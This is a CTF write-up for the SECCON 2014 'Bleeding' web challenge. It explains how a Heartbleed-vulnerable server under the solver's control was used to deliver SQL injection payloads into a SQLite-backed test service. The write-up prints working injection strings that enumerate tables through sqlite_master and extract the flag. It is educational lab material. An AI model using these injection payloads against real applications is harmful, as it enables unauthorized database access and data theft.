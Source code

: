 # SECCON CTF 2014: Bleeding “Heartbleed” Test Web

**Category:** Web
**Points:** 300
**Description:**

> <http://bleeding.pwn.seccon.jp/>

## Write-up

The link points to a service that allows you to enter an IP address and a port number. The correspondingserver is then tested for the Heartbleed vulnerability.

Entering a random IP address (in this case, `173.194.65.100`, one of Google’s IPs) and port 443 results in the URL `http://bleeding.pwn.seccon.jp/?ip=173.194.65.100&port=443`, which displays the test results:

> ```
> Connecting...
> Sending Client Hello...
> Waiting for Server Hello...
>  ... received message: type = 22, ver = 0302, length = 61
>  ... received message: type = 22, ver = 0302, length = 3852
>  ... received message: type = 22, ver = 0302, length = 331
>  ... received message: type = 22, ver = 0302, length = 4
> Sending heartbeat request...
> ```

Below the test results, there is a disclaimer:

> We put test results into our database for analysis. Thank you for your understanding.

A-ha… Could this be a SQL injection challenge?

The HTML source code contains a comment:

```html
<!-- DEBUG: INSERT OK. TIME=1417889356 -->
```

This indicates that the server performs an `INSERT` query.

First, we need to set up a server that is vulnerable to Heartbleed, and that ‘bleeds’/leaks a payload under our control. Luckily, [PPP has already written a script doing just that for PlaidCTF](https://github.com/pwning/plaidctf2014/blob/master/web/heartbleed/Makefile). After some small tweaks to make it read the Heartbleed payload from a file (`/tmp/heartpayload`) at run-time rather than from a hardcoded string at compile-time, we end up with [`Makefile`](Makefile). Insert your server’s IP address at the top of the file, and then run:

```bash
$ make clean && make && ./heartbleed.sh
```

Entering your server details on the web page then takes you to <http://bleeding.pwn.seccon.jp/?ip=$your_server_ip&port=443>. By editing the `/tmp/heartpayload` file on our server and then reloading the above page, we can easily test different payloads.

Using just a single quote (`'`) as the payload results in the following error message:

> DATABASE ERROR!!! near ".": syntax error
>
> ```sql
> select time from results where result='Connecting... Sending Client Hello... Waiting for Server Hello... ... received message: type = 22, ver = 0302, length = 66 ... received message: type = 22, ver = 0302, length = 839 ... received message: type = 22, ver = 0302, length = 331 ... received message: type = 22, ver = 0302, length = 4 Sending heartbeat request... ... received message: type = 24, ver = 0302, length = 16384 Received heartbeat response: .@.'...... WARNING: server returned more data than it should - server is vulnerable! ';
> ```

It seems the server executes the abovementioned `INSERT` query, followed by a `SELECT` query just to fetch the matching timestamp that is displayed in the HTML comment.

After some attempts we realize we can override the timestamp value by using a payload like this:

```
' UNION SELECT 1337 WHERE 1=1 OR '1' LIKE '
```

The `1337` part of that payload is reflected in the HTML comment:

```html
<!-- DEBUG: INSERT OK. TIME=1337 -->
```

Since it seems to be a sqlite database, let’s try to figure out the table names:

```
' UNION SELECT group_concat(name) FROM sqlite_master WHERE type='table';--
```

The result:

```html
<!-- DEBUG: INSERT OK. TIME=results,ssFLGss,ttDMYtt -->
```

So there are three tables: `results`, `ssFLGss`, and `ttDMYtt`. That second one seems interesting. Eventually we end up with this final payload:

```
' UNION SELECT flag from ssFLGss WHERE 1=1 OR '1' LIKE '
```

And the result:

```
<!-- DEBUG: INSERT OK. TIME=SECCON{IknewIt!SQLiteAgain!!!} -->
```

The flag is `SECCON{IknewIt!SQLiteAgain!!!}`.

## Other write-ups and resources

* <http://tasteless.eu/2014/12/seccon-ctf-2014-online-qualifications-web300-writeup/>
